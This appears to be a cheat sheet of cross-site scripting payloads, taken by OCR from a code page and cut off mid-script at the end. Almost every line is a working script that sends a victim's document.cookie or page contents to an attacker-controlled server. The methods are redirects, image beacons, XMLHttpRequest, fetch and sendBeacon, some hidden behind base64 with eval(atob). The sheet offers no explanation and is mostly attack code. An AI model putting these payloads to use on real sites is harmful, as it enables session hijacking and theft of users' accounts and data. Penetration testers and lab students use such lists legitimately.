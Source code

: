 ```js

<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>

<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>

<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>

<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>

<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>

<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>

<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>

<script>
document.location=""
</script>

<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>

//Encode the following to base64 `server exploit` searchTerm
'document.location='https://<exploit-server>/?c='+document.cookie
J2RvY3VtZW50LmxvY2F0aW9uPSdodHRwczovL2V4cGxvaXQtPGNoYW5nZW1lPi53ZWItc2VjdXJpdHktYWNhZGVteS5uZXQvP2M9Jytkb2N1bWVudC5jb29raWU=
Final payload:
<iframe src="https://<xss url>/?searchterm='<body onload="eval(atob('base64-encoded'))">//" onload="this.onload='';this.src='#XSS'"></iframe>

//Steal page Contents:
<script>
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.withCredentials = true;
xhr.send(null);
</script>

<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ace007d04bcb93880c3ee7000dc00a5.web-security-academy.net/accountDetails',true);
```